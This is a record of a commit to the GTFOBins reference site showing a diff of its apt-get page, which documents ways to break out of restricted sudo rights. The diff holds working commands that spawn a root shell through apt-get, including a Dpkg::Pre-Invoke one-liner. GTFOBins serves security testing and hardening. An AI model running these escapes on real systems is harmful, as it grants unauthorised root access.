

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/apt-get.md, in a window 1280 px wide. Shown: the top 773 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Improve 'apt-* install' entries
Improve description, enforce standards and make sure that the package will not
be installed.

Related #38.

```diff
--- a/_gtfobins/apt-get.md
+++ b/_gtfobins/apt-get.md
@@ -10,8 +10,6 @@ functions:
       code: |
         sudo apt-get changelog apt
         !/bin/sh
-    - description: 'Sometimes, only some subcommands of `apt-get` are enabled by sysadmin in the sudoers file. When only `apt-get install *` is allowed, you can use:'
-      code: |
-        echo 'Dpkg::Pre-Invoke {"/bin/bash";};' > test.conf
-        sudo apt-get install -c ./test.conf sl
+    - description: For this to work the target package (e.g., `sl`) must not be installed.
+      code: sudo apt-get install -c <(echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}') sl
 ---
```
Also changed, not shown: _gtfobins/apt.md (+2 -4 lines).
